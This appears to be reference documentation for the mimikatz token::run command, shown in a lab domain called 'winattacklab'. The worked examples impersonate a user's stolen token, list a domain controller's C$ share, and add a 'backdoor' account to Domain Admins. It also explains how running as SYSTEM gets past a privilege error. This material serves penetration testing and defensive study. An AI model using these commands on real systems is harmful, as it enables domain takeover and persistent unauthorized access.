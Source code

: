 # run

`token::run` executes a new process with its token.

It has the following command line arguments:

* `/id`: Token id to use for the new process
* `/user`: Execute the process with the tokens of this user (instead of specifying the token ID)..
* `/process`: The process to run. By default, the command `whoami` is executed.

## Use Primary Token in new Process

List tokens of user to impersonate:

```
mimikatz # token::list /user:ffast
Token Id  : 0
User name : ffast
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
4432    {0;000563b2} 2 F 2839551        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
668     {0;00050574} 0 D 329079         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (12g,24p)       Impersonation (Impersonation)
668     {0;000563e4} 2 L 353269         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
800     {0;000563e4} 2 L 456098         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 380750         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 387116         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,01p)       Impersonation (Identification)
920     {0;000563e4} 2 L 436160         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
[...]
```

Run a command using a specified token by it's token ID. By default, the command `whoami` is executed:

```
mimikatz # token::run /id:457263
Token Id  : 457263
User name :
SID name  :

676     {0;000f0ac5} 3 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
winattacklab\ffast
```

Access DC system drive:

```
mimikatz # token::run /id:1075487 /process:"cmd.exe /c dir \\dc1\c$"
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)
Primary
 Volume in drive \\dc1\c$ is Windows
 Volume Serial Number is 6A6C-0DE3

 Directory of \\dc1\c$

05/31/2023  06:30 AM    <DIR>          AzureData
05/31/2023  07:09 AM    <DIR>          ddns_server
05/31/2023  07:04 AM    <DIR>          inetpub
05/31/2023  06:46 AM    <DIR>          Packages
05/05/2023  11:31 AM    <DIR>          PerfLogs
05/31/2023  07:04 AM    <DIR>          Program Files
05/05/2023  12:26 PM    <DIR>          Program Files (x86)
05/31/2023  07:10 AM    <DIR>          terraform
05/31/2023  07:06 AM    <DIR>          Users
05/31/2023  07:05 AM    <DIR>          Windows
05/31/2023  06:33 AM    <DIR>          WindowsAzure
05/31/2023  07:07 AM    <DIR>          WSUS
               0 File(s)              0 bytes
              12 Dir(s)  15,918,473,216 bytes free
```

Add backdoor user:

```
mimikatz # token::run /id:1075487 /process:"cmd.exe /c net user backdoor Password.123 /add /domain && net group \"Domain Admins\" backdoor /add /domain && net user backdoor /domain"
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
The request will be processed at a domain controller for domain winattacklab.local.

The command completed successfully.

The request will be processed at a domain controller for domain winattacklab.local.

The command completed successfully.

The request will be processed at a domain controller for domain winattacklab.local.

User name                    backdoor
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/20/2023 3:59:27 PM
Password expires             Never
Password changeable          6/20/2023 3:59:27 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```

## Demystifying the `kull_m_process_run_data` Error

Even as a local administrator, you can get the `kull_m_process_run_data` error:

```
mimikatz # token::run /id:1075487 /process:whoami.exe
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
ERROR kull_m_process_run_data ; CreateProcessAsUser (0x00000522)
```

- The error message says that the `CreateProcessAsUser` function could not be executed.

The `token::run` command uses the function `CreateProceasAsUser` to create a
new process in the security context of the specified token and requires the
following privileges (source: [CreateProcessAsUserA function (processthreadsapi.h)](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)):

- `SeIncreaseQuotaPrivilege` privilege
- `SeAssignPrimaryTokenPrivilege` privilege (if the token is not assignable)

A local admin has the permission to get the `SeIncreaseQuotaPrivilege` privilege but not the `SeAssignPrimaryTokenPrivilege` privilege:

```
mimikatz # privilege::name SeIncreaseQuotaPrivilege
Privilege '5' OK

mimikatz # privilege::name SeAssignPrimaryTokenPrivilege
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (3) c0000061
```

If you start mimikatz as `SYSTEM`, these privileges can be acquired:

```
mimikatz # privilege::name SeIncreaseQuotaPrivilege
Privilege '5' OK

mimikatz # privilege::name SeAssignPrimaryTokenPrivilege
Privilege '3' OK
```

Then, it's possible to use the `token::run` command and use stolen tokens as primary tokens.
